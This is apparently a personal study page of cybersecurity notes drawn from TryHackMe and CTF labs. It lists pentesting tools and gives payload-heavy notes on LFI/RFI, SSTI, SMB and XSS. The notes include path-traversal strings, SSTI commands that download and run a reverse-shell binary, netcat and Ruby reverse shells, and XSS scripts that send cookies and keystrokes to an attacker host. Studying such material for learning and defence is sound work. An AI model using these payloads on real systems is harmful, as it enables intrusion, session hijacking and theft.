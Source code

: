 ---

#   Cybersecurity: Notes and Projects

 <script src="https://tryhackme.com/badge/1210884"></script>

----- 

[Back to website home page](https://jeremylaratro.link)

-----

> ### **My latest post:**
## [OWASP Juice Shop -- Notes and Walkthrough](/CS/juice_shop)
### Next post: Algorithm & Data Structure Notes in Python

-----------

### **Resources: My Reading List & Accounts**
<details>

<summary>
My Reading List & Resources
</summary>

* Linux Basics for Hackers Getting Started with Networking, Scripting, and Security in Kali (OccupyTheWeb)
* Penetration Testing A Hands-On Introduction to Hacking (Weidman, Georgia)
* Becoming A Master Hacker (OccupyTheWeb)
* Competitive Programming in Python 128 Algorithms to Develop your Coding Skills (Christoph Dürr, Jill-Jênn Vie)
* Real-World Bug Hunting A Field Guide to Web Hacking (Peter Yaworski)
* [Codecademy Profile](https://www.codecademy.com/profiles/JeremyLaratro)
* [TryHackme.com Profile (In the top 8% of users!)](https://tryhackme.com/p/jeremylaratro)
* HackTheBox.com 
* Hacktricks.xyz
* [Picoctf.org Profile](https://play.picoctf.org/users/jeremylaratro)
* [LeetCode Profile](https://leetcode.com/jeremylaratro/)

</details>


----------


### **Overview, Tools, and Pathways**

>These are some of the go-to tools I use when starting a machine, CTF, challenge, etc. These tools generally fall into the 
> reconnaissance and vulnerability assessment steps. 

<details>

<summary>
General Enumeration | Scanning | Reconnaissance
</summary>


>>#### whatweb

>- This is often the first tool used when given a domain, to determine basic info about the web server (in cases where a domain is the given target) and to obtain the IP address.


>>####  Nmap  

>- Among the most commonly used tools, nmap allows one to scan the target machine and gain a great deal of information about it, including open ports, services, and even vulnerability assessment via
>- scripts. 


>>####  wpscan  

>- If a wordpress site is identified, wpscan is extremely useful in finding potential vulnerabilities by enumerating plugins along with various other powerful features including bruteforce attacks if xmlrpc is enabled.


>>####  Nessus  

>- Nessus is an all-around vulnerability scanner and can help identify potential vulnerabilities and avenues of attack


>>####  OWASP Zap  

>- OWASP Zap is a GUI-based scanning tool that is focused on the OWASP top 10 vulnerabilities. This is another tool that can be useful in determining potential vulnerabilities.


>>####  Dig, dnsenum, and nslookup

>- These tools, along with various others, are useful in automating the process of DNS queries and can be extremely useful in reconnaissance of a website and in understanding the ownership and relationship between domain names and IPs.</details>

>>####  Shodan
> - Extremely powerful banner search engine.

</details>

-----------

<details>
 
<summary>
|Exploitation and Investigation Tools|
</summary>




### **Web and Network Exploitation**

>There are thousands and thousands of different tools, scripts, and applications out there for all the various different attack types and vulnerabilities. The following are ones which I have personally used in labs and challenges and which I am at least fairly comfortable using.


>####  BURP Suite

>> - Powerful proxy -> intercept and modify requests, leading to a large variety of potential uses

>####  Metasploit

>> - Massive collection of known exploits, scripts, payloads, and database

>####  SQLMap 

>> - SQLi scanner and exploitation tool

>####  dirb, dirbuster, gobuster 

>> - Directory enumeration

>####  ffuf, hydra 

>> - Web fuzzing, directory enumeration, account brute forcing

>####  sstimap, lfimap 

>> - LFI and SSTI vulnerability scanner and exploitation tool

>####  xsssniper

>> - XSS scanner and exploitation tool

>####  rapidscan 

>> - Tool which essentially creates a suite of other popular exploitation tools like sqlmap, dirb, etc. 


----------


### **Offline Tools**


>####  hashcat

>> - GUI-accelerated password cracking tool. Extremely quick.

>####  John the Ripper

>> - Another password cracking tool, particularly useful for it's auto-detection and john2'other' conversion scripts. 

>####  cewl, crunch

>> - Custom password and wordlist generators


>####  binwalk, exiftools, strings, cat

>> - Linux file analysis tools

</details>

----------

### **Areas I'd Like to Improve**



<details>

<summary>
Areas I'd Like to Improve
</summary>


>####  Reverse Engineering

> - One of the areas I'd specifically like to improve in is reverse engineering. This requires a solid working knowledge
> of languages commonly used to build malware, which leads to the next area I'd like to improve -- expanding my programming knowledge.

>####  Programming

> - Currently, I am intermediate with Python, and beginner/intermediate with Java and C++ (ie. comfortable with general OO, functions, 
> classes, namespaces, and familiar with pointers, but not as efficient or fluent with them as I am with Python 
> (ie. with Leetcode, for example, problems which challenge me in Python are extremely difficult for me in C++. I'd
> like to improve my proficiency in C++ and Java, and also increase the number of languages that I am at least
> comfortable with in terms of syntax. 

>#### SSTI and RCE

> - I would like to become less reliant upon tools when attempting to exploit SSTI and RCE vulnerabilities, and thus,
> I need to improve my understanding of PHP and common web frameworks in order to be able to develop my own exploits.

</details>


----------

## **Notes**
> *Notes from labs, CTF's, and machine's on HackTheBox, TryHackMe, OWASP Juice Shop, etc.*


<details>

<summary>
Local File Inclusion and Remote File Inclusion Overview
</summary>

-----

>### **LFI: Local File Inclusion**

-----

Notes from TryHackMe's LFI/RFI room. 


Local file inclusion is a vulnerability that can allow attackers to 

traverse the file system due to improperly or non-sanitized requests. 

This may allow an attacker to access sensitive files, ie /etc/passwd


Commonly used attack vector for LFI is '/../../'


````

get.php?file=../../../../etc/passwd

````


This allows traversal through layers of the directories to the root or target folder/directory. How many times depends on the specific system.

This can be determined by encouraging an error, ie:


````

 index.php?lang=jfbdsgd

 ````

 which then may return an error containing something along the lines of:


````

 in /var/www/html/lab2.php on line 26'

 ````

 
 The presence of 4 layers can be derived from this, and thus, 4 levels can be used for the attack:


 ```python

 index.php?lang=../../../../etc/passwd

 ```

 OS info can be derived as well:


```

 /get.php?file=../../../../boot.ini

 /get.php?file=../../../../windows/win.ini

 
 ```

 Sanitization and filter evasion:

 
 In PHP 5.3.3 and below, NULL bytes can be used to signify end of string and stop .php extension from being appended

 index.php?lang=../../../../etc/passwd%00

 
 Using a '.' can also be used to signify staying within the directory


````

 ../../../../etc/passwd/.

 ````

 Forced directory - if developer forces a directory, evasion is possible by understanding where that directory lies within the levels.

 Evasion may be as simple as adding an extra layer, ie:


````

 /../../../etc/passwd  --> /../../../../etc/passwd

 ````


 Burp suite can be used to evade any request filters that may filter or change characters

Try POST, GET 

If _REQUEST is being used, take advantage of cookies: 


````

POST /challenges////////////chall3.php HTTP/1.1

Host: 10.10.120.210

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://10.10.120.210/challenges///////////chall3.php?file=

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Cookie: =../../../etc/flag3

Connection: close

Content-Type: application/x-www-form-urlencoded

Content-Length: 25


file=../../../etc/flag3%00

```` 


--------------------------


>### **RFI: Remote File Inclusion**


---------

 
RFI is similar to LFI but involves remote inclusion of files and potentially RCE. It depends on the function:

allow_url_fopen


Overview:

Payload is hosted on attackers servers -> payload injected via HTTP requests using include function -> payload is executed


````

GET /page.php?file=

lang=http://0.0.0.0/r.elf

````


````

O:8:"_construct":1:{s:4:"cookie";s:10:"Some data!";} 

````


Tools:


````

- lfimap

- lfitester

- vailyn

````


</details> 


<details>

<summary>
Server-Side Template Injection - SSTI
</summary>


Notes from SSTI Lab on TryHackMe.


Common test-cases:


````

{7*7}

{{7*7}}'

a{{bar}}b

{var} ${var} {{var}} <%var%> [% var %]


````


1.  Start local server.


````

python3 -m http.server 80


````

2. Test functionality of python server remotely using JS and curl.


````

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://10.10.16.5")}


10.10.16.5


````

3. Create reverse shell payload and initialize a netcat listener for it. 


````

msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.5.0.2 LPORT=5010 -f elf > r.elf


nc -lvnp 443


````

4. Perform the SSTI, getting RCE on the server.


````

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget 10.5.0.2:5003/r.elf")}


*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./r.elf")}


*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./r.elf")}


*{os.system("nc -e /bin/sh 10.10.16.5 5010")}

<%=system("ruby%20-rsocket%20-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.5.0.2%22%2C5007%29%29%27")%>

````


Tools:


````


- sstimap


````


</details>


<details>

<summary>
SMB Exploitation
</summary>


SMB- server message block

* Notes from TryHackMe's SMB room


Enumeration / Recon:

SMB uses port 445

A common service name is 'microsoft-ds'

After enumerating the system and finding a potential SMB exploitation pathway:

Further enumerate the SMB service using smbclient:


````


smbclient -L ip 


````


* Share names will be listed


	
Check for the guest or anonymous login, ie:

Sharenames:


````

ADMIN$

C$

WorkShares

````


After identifying potentially vulnerable share, attempt login:


````

smbclient \\\\ip\\<share>>

````


Upon entry --> 

* browse directories, look for sensitive files

* potential path traversal, pivot to other shares



</details>

-------

>### **XSS: Cross Site Scripting**

-------

<details>
<summary>
XSS
</summary>



Injection attack where a malicious payload can be injected into a web page and potentially result in an attacker getting user, staff, or other sensitive data


Check:

	
~~~

<script>alert('XSS');</script>

~~~

	
Session stealing:

	
~~~

<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>

~~~

Key loggger:

	
~~~

<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>

~~~



	
~~~

<script>user.changeEmail('attacker@hacker.thm');</script>

~~~


#### Stored

Stored XSS is XSS where a payload is injected into a webpage, and stored at the server level, resulting in that malicious code's presentation to other users of the site. This allows for various serious threats. 

Attack Vectors:

Comments on a blog

User profile information

Website Listings



#### Reflected

Reflected XSS, on the other hand, is XSS where the payload is reflected only on the page instance itself. Attackers must send a link to the altered page to a victim to take advantage of reflected XSS, as it is not stored at the server level.

Attack Vectors:

Parameters in the URL Query String

URL File Path 


	
#### DOM

DOM-based XSS depends on JS code executing locally and not server-side. This allows for an attacker to exploit specific JS function and then, like reflected XSS, send a link with the malicious code injected. Requires a deeper level of JS to exploit. 

Attack Vectors:

eval()


	
#### Blind

Blind XSS is XSS where malicious code is presented to other users, as in stored XSS, however you are unable to see it. In order for attackers to take advantage of this XSS, an HTML callback is incorporated into the payload.



Evasion:

	
~~~

"><script>alert(1);</script>

~~~

	
Close tag of encapsulating div:

	
~~~

</textarea><script>alert(1);</script>

~~~

	
Filter evasion:

Filter for 'script' --> sscriptcript

	
~~~

<sscriptcript>alert(1);</sscriptcript>

~~~

	
Within an image:

	
~~~

/images/cat.jpg" onload="alert(1);

~~~

	
Tools:

	
````

	
- xsshunter

- xsssniper

- xssstealer

- garud

- 0d1n

````


</details>



